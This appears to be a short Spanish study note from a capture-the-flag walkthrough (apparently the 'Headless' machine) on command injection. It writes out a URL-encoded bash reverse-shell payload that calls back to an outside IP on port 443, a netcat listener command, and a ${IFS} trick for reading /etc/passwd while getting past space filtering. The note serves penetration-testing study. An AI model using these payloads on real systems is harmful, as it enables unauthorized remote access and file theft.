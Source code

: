 #commandinjection

------

![[Headless11.png]]
Vemos que si ponemos un ;date nos va a ejecutar el comando que le pongamos ya que nos tira el output de [[id]]


Ahora en el parametro *date* vamos a probar mandarnos una [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]]

vamos a agregar ``;bash -c "bash -i >%26 /dev/tcp/10.10.16.15/443 0>%261"``

![[Headless12.png]]

![[Headless13.png]]
Y ganamos acceso a la maquina

----

# Como inyectar espacios cuando no nos deja ponerlos

*${IFS}* lo interpreta como si fuera un espacio, pero no es un espacio literalmente
Por ejemplo si quisieramos hacer un ``;cat /etc/passwd`` no podriamos por que tiene espacio, pero si ponemos `;cat${IFS}/etc/passwd;#` se ejecutaria el comando correctamente